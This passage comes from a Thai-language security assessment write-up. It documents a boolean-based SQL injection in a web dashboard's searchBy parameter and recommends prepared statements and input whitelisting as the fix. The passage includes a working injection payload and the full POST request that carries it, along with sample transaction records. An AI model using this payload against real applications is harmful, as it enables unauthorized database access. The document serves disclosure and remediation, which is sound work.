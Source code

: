 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

Response ที่ได้กลับมาไม่มีข้อมูลอะไรอยู่เลย

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 54
[...]

{"iTotalRecords":0,"iTotalDisplayRecords":0,"data":[]}
\end{lstlisting}

ดังนั้นจึงยืนยันได้ว่าคำสั่ง SQL ที่ใส่เข้าไปถูกตัวเว็บแอปพลิเคชันนำไปทำงาน ซึ่งตัวแปรที่ทำให้เกิดช่องโหว่นี้คือตัวแปร searchBy

วิธีการแก้ไขคือควรใช้ SQL Prepare Statements แทนการเชื่อม String เนื่องจากส่วนข้อมูล Input กับ คำสั่งจะไม่ถูกนำมาต่อกันโดยตรง ถ้าไม่สามารถใช้ SQL Prepare Statement ได้ เนื่องจากข้อจำกับของภาษา หรือ Framework ก็ไม่ควรนำ Input จาก User เข้าไปใช้กับ Database โดยตรง

ซึ่งหมายความว่าตัวอักขระพิเศษเช่น Single Quote (') หรือ Double Quote (") จะต้องถูก Escape ก่อน (แปลงจาก ' เป็น \textbackslash') เพื่อให้ Database มองว่าเป็นข้อมูล ไม่ใช่คำสั่ง

นอกจากนี้ยังควรกรองข้อมูล Input ด้วยวิธีแบบ Whitelist เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่าประกอบไปด้วยตัวเลขเท่านั้น เป็นต้น และควรกรอกข้อมูลกับทุก ๆ Input ที่ผู้ใช้สามารถใส่เข้ามาได้ เช่น Cookie, Form ที่ถูกซ่อนอยู่ และ Request Header ต่าง ๆ เป็นต้น

